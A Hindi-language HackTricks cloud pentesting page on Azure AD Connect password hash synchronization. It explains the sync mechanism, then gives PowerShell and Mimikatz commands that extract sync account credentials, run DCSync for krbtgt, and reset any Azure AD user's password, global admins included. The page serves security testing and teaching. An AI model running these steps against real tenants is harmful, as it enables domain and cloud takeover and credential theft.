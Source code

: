 # PHS - पासवर्ड हैश सिंक्रनाइज़ेशन

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एकल [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या **तुरंत** मुझे **ट्विटर** पर फ़ॉलो करें 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **अपने हैकिंग ट्रिक्स साझा करें, HackTricks को** [**पीआर जमा करके**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos को **प्रस्तुत करके**।

</details>

## मूलभूत जानकारी

**पासवर्ड हैश सिंक्रनाइज़ेशन** हाइब्रिड आईडेंटिटी को पूरा करने के लिए उपयोग किए जाने वाले साइन-इन विधियों में से एक है। Azure AD Connect एक उपकरण है जो एक उपकरण से एक उपयोगकर्ता के पासवर्ड के हैश का हैश क्लाउड-आधारित Azure AD उपकरण में सिंक्रनाइज़ करता है।

<figure><img src="../../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

यह कंपनियों द्वारा उपयोग की जाने वाली **सबसे सामान्य विधि** है जो एक ऑन-प्रेम AD को Azure AD के साथ सिंक्रनाइज़ करती है।

सभी **उपयोगकर्ता** और **पासवर्ड हैश का हैश** ऑन-प्रेम से Azure AD में सिंक्रनाइज़ होते हैं। हालांकि, **स्पष्ट-पाठ पासवर्ड** या **मूल हैश** Azure AD को नहीं भेजे जाते हैं।\
इसके अलावा, **बिल्ट-इन** सुरक्षा समूह (जैसे डोमेन व्यवस्थापक...) को Azure AD में **सिंक्रनाइज़ नहीं किया जाता है**।

**हैश सिंक्रनाइज़ेशन** हर **2 मिनट** में होता है। हालांकि, डिफ़ॉल्ट रूप से, Azure AD में **पासवर्ड समाप्ति** और **खाता समाप्ति** को Azure AD में **सिंक्रनाइज़ नहीं किया जाता है**। इसलिए, एक उपयोगकर्ता जिसका **ऑन-प्रेम पासवर्ड समाप्त हो गया है** (बदला नहीं गया) पुराने पासवर्ड का उपयोग करके **Azure संसाधनों तक पहुंच जारी रख सकता है**।

जब एक ऑन-प्रेम उपयोगकर्ता Azure संसाधन तक पहुंच करना चाहता है, तो **प्रमाणीकरण Azure AD पर होता है**।

**PHS** आईडेंटिटी संरक्षण और AAD डोमेन सेवाओं जैसी सुविधाओं के लिए आवश्यक है।

## पिवटिंग

जब PHS कॉन्फ़िगर किया जाता है, कुछ **विशेषाधिकारी खाते** स्वचालित रूप से **बनाए जाते हैं**:

* खाता **`MSOL_<installationID>`** ऑन-प्रेम AD में स्वचालित रूप से बनाया जाता है। इस खाते को **Directory Synchronization Accounts** भूमिका दी जाती है (दस्तावेज़ीकरण देखें [दस्तावेज़ीकरण](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) जिसका मतलब है कि इसे **ऑन-प्रेम AD में रिप्लिकेशन (DCSync) अनुमतियाँ होती हैं**।
* खाता **`Sync_<name of on-prem ADConnect Server>_installationID`** Azure AD में बनाया जाता है। यह खाता Azure AD में किसी भी उपयोगकर्ता (सिंक्रनाइज़ या केवल क्लाउड) का पासवर्ड रीसेट कर सकता है।

पिछले दो विशेषाधिकारी खातों के पासवर्ड **एक SQL सर्वर में संग्रहीत होते हैं** जहां **Azure AD Connect स्थापित होता है**। व्यवस्थापक उन विशेषाधिकारी उपयोगकर्ताओं के पासवर्ड को स्पष्ट-पाठ में निकाल सकते हैं।

यदि **Azure AD Connect स्थापित होने वाला सर्वर** डोमेन से जुड़ा होता है (दस्तावेज़ीकरण में अनुशंसित किया जाता है), तो इसे खोजना संभव है:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### AzureAD -> On-prem

आज़्यूरएडी -> ऑन-प्रेम
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
### On-prem -> AzureAD

`Sync_*` खाते को संक्रमित करके किसी भी उपयोगकर्ता के पासवर्ड को रीसेट करना संभव है (इसमें वैश्विक प्रशासक भी शामिल हैं)।
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
यह भी संभव है कि केवल **क्लाउड** उपयोगकर्ताओं के पासवर्ड को संशोधित किया जा सकता है (यद्यपि यह अप्रत्याशित है)।
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
### सहज SSO

PTA के साथ सहज SSO का उपयोग करना संभव है, जो अन्य दुरुपयोगों के लिए संक्रमणशील होता है। इसे जांचें:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## संदर्भ

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) **और** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github repos में PR जमा करके।**

</details>
